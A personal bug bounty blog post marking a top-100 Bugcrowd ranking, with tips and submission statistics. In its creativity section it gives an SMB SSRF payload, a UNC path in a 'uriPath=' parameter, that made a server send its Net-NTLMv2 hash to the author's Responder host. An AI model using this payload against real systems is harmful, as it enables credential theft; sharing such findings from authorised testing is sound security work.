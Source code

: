 ```yaml
---
layout: single
title: Bug Hunting Thoughts \& Statistics
date: 2021-02-15
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - Penetration Testing
--- 
```


Today marks a huge personal milestone in my bug bounty hunting career. I have achieved an all-time ranking of top 100 on Bugcrowd. This accomplishment comes just 11 months after first creating an account on the Bugcrowd platform. In this blog post I will endeavor to highlight a few things I have learned along the way. This blog post will contain some insights into the types and number of bugs I have submitted as well as any miscellaneous tips I think of while writing this.  

## Hack for Fun
The first point I would like to emphasize is the fun and learning involved in hacking. In my opinion, going into bug hunting with the sole desire to make money is unadvisable. I first started bug hunting after finishing eLearn Security’s web application pentester certification and decided I wanted to try hacking on real websites. I’ve learned so much more doing bug hunting than I have in any certification (and as an added bonus I get paid to learn this way rather than paying to learn)!  

## Be Creative
The next point I want to touch on is creativity. As I have delved deeper into the bug bounty community, I see an evident issue with creativity. What I mean by this is that so many aspiring hunters are focused on finding their first bug that they constantly flock to the newest tool or run the newest “one-liner” they see on Twitter. This is the wrong approach, instead try thinking outside of the box, fuzz parameters differently, try to break things! Once you make the website act funny you can dig deeper and try to invoke a security issue.   

An example of this I’ve encountered is SMB SSRF. Everyone knows the basic premise of SMB is to induce the web server to make an outbound HTTP request. I was looking at a program with a very tempting `uriPath=` parameter but was unable to achieve an HTTP request despite trying numerous bypasses. Out of curiosity I tried `uriPath=\\c2.mk\share` and immediate received the Net-NTLMv2 hash from the ASPX server on my VPS running Responder. This is not something I have commonly read about, but I proceeded to find it in six other parameters on this program. They were very clearly blocking outbound HTTP traffic but allowed outbound SMB traffic.  


## Dedication
Bug bounty is no different than anything else in life. You have to work hard if you want to see progress and achieve positive results. There is no such thing as a free lunch, you will have to learn and understand web application attacks and exploits, then you will have to fight and compete with thousands of other bug hunters just get your first accepted bug. There is no substitute for hard work and hours spent practicing. Sit down and start today if you want to progress tomorrow.  


<br>
I may add future ramblings here in the future ¯\_(ツ)_/¯ 


## Statistic
Alright now for the fun data and statistics. The data and screenshots below are what is required to reach Top 100 on Bugcrowd (at the time of writing this article):
-	Bugs Submitted: 313
-	Bugs Accepted: 131
-	Duplicate Bugs: 89
-	Rejected Bugs: 86 (this is largely due to how Bugcrowd handles NGPT/ CPT engagements)
-	Pending Bugs: 7


![](/assets/images/bugbounty/1.png)

Figure 1: Volume of Submitted Bugs Over Time  

![](/assets/images/bugbounty/2.png)

Figure 2: Severity of Submitted Bugs Over Time  

![](/assets/images/bugbounty/3.png)

Figure 3: Technical Severity Breakdown  

![](/assets/images/bugbounty/4.png)

Figure 4: Number of Submitted Bugs per Category  

![](/assets/images/bugbounty/5.png)

Figure 5: Points, Rank, Accuracy  



![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.com%2FBug-Bounty-top-100%2F)